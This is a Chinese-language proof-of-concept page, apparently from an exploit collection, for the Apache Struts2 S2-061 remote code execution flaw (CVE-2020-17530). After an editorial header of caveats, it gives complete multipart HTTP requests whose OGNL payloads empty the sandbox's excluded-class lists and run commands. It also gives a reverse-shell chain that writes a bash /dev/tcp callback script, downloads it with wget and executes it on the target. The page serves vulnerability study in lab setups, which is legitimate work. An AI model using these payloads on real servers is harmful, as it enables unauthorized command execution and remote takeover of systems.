


# Apache Struts2 S2-061 远程代码执行漏洞 CVE-2020-17530

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：2.0–2.5.25、不可信输入强制双重求值；示例Tomcat InstanceManager、CommonsCollections BeanMap、FreeMarker Execute类
- 证据范围：完整multipart请求呈现链，但缺具体危险标签/绑定代码与依赖说明。

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 只称绕过沙箱容易漏核心触发条件：用户输入经标签强制OGNL二次求值
- 具体Tomcat/gadget环境不等于全部2.0–2.5.25可直接用此payload
- 不同请求固定Content-Length需重算，Host your-vps-ip容易混攻击者与目标
- 清空excluded集合及写shell改变状态，无恢复说明
- 缺修复版本/安全编码建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

S2-061 是对 S2-059 的绕过，Struts2 官方对 S2-059 的修复方式是加强 OGNL 表达式沙盒，而 S2-061 绕过了该沙盒。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.25

## 环境搭建

Vulhub 执行以下命令启动 s2-061 测试环境：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.action` 查看到首页。

## 漏洞复现

发送如下数据包，即可执行 `id` 命令：

```http
POST /index.action HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id` 命令返回结果将直接显示在页面中：



### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```http
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 858

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("wget 192.168.174.128/shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

执行 shell.sh 文件的命令为：

```shell
bash shell.sh
```

执行 shell.sh 文件的 Payload 为：

```http
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 842

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

成功接收反弹 shell：




---

> 来源：Threekiii/Awesome-POC
